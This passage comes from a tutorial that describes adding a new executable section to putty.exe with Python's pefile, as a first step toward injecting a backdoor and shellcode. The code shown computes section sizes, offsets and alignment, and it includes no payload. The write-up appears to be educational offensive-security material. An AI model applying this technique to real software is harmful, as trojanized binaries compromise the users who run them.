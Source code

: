In the follwing sections, I will describe the different steps I used to inject a backdoor into an executable. The full code will be available at the end of the tutorial.

### Create the Section Header

Now, we can start. We already can set 4 values in our header. I assume that our shellcode will be smaller than 4096 bytes.

```python
name            = ".axc"
virtual_size    = 0x1000 		# 4096 octets
raw_size        = 0x1000		# 4096 octets
characteristics = 0xE0000020 	# READ | WRITE | EXECUTE | CODE
```

For `VirtualAddress` and `PointerToRawData`, we have to be sure that we don't overwrite the other sections. If one of the pointer point to an existing header, we would corrupt the executable. To avoid this issue, we will set our pointers to go after the last section of the executable.

```python
import pefile

exe_path = "putty.exe"
pe = pefile.PE(exe_path)
number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1

virtual_offset = pe.sections[last_section].VirtualAddress + pe.sections[last_section].Misc_VirtualSize
raw_offset = pe.sections[last_section].PointerToRawData + pe.sections[last_section].SizeOfRawData
```

Now, the new section will be located right after the last section on the disk and in memory. To comply with the alignment, we will modify the code to dynamically compute the right values for the section size.

```python
import pefile

exe_path = "putty.exe"
pe = pefile.PE(exe_path)

number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
file_alignment = pe.OPTIONAL_HEADER.FileAlignment
section_alignment = pe.OPTIONAL_HEADER.SectionAlignment


# Quick function to align our values
def align(val_to_align, alignment):
    return ((val_to_align + alignment - 1) / alignment) * alignment

raw_size = align(0x1000, pe.OPTIONAL_HEADER.FileAlignment)
virtual_size = align(0x1000, pe.OPTIONAL_HEADER.SectionAlignment)
raw_offset = align((pe.sections[last_section].PointerToRawData +
                    pe.sections[last_section].SizeOfRawData),
                   pe.OPTIONAL_HEADER.FileAlignment)

virtual_offset = align((pe.sections[last_section].VirtualAddress +
                        pe.sections[last_section].Misc_VirtualSize),
                       pe.OPTIONAL_HEADER.SectionAlignment)
```

